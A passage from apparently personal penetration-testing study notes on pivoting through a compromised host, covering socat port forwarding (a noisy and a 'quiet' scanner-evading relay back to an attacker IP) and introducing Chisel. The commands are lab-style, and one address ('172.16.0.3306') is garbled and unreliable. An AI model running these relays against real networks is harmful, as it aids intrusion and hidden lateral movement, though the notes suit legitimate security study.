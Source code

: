 The above creates a reverse shell to the newly opened port `8000` on the target machine and attempts to connect to the attacker machine via port `443`.

###### Port Forwarding (Easy)

Socat can also be used for port forwarding.  For example, if the target is `172.16.0.5` and the target port is `3306` of `172.16.0.10`, then:

```console
$ ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.3306 &
```

The above opens port `33060` on the target and redirects the input from the attacker's machine straight to the target server (`172.16.0.10`).  The `fork` option is used to put every connection to a new proces and `reuseaddr` means that the port stays open after a connection is made.  The latter can allow multiple connections via the same port.  As such, we can now connect to port `33060` on the relay `172.16.0.5` and have our connection reach the target `172.16.0.10:3306`.

###### Port Forwarding (Quiet)

Since the above opens a port on the compromised server, it may be visible to host/network scanning.  We can use socat in a more discreet fashion:

```console
# attacker machine
# opens ports 8000 and 8001 creating a local port relay (what goes into one
# will come out the other, hence fork/reuseaddr)
$ socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

# compromised relay server:
# makes connection on our listening port 8001 and the port of target server
$ ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

For example from our compromised relay server `172.16.0.5` to our attacker machine `10.50.73.2` and our intended target `172.16.0.10`:

```console
# compromised relay server:
$ ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

# creates link between port 8000 on attacker machine and port 80 on intended target (172.16.0.10), meaning we can go to localhost:8000 to load webpage served by 172.16.0.10:80
```

In summary:
- The request goes to `127.0.0.1:8000`
- Due to socat listener on attacker machine, anything that goes through port `8000` comes out of port `8001`
- Port `8001` is directly connected to socat on the compromised server (anything that comes out of `8001` gets sent to the compromised server) where it gets relayed to port `80` on the target server
- Process is reversed when target sends response

#### Chisel

Similarly, [Chisel](https://github.com/jpillora/chisel) can also be used to set up tunnelled proxies or port forward through compromised systems - regardless of whether you have SSH access or not.  For this to work, you must have a chisel binary on both the attacking machine and the compromised server - you can use `scp` for the transfer:

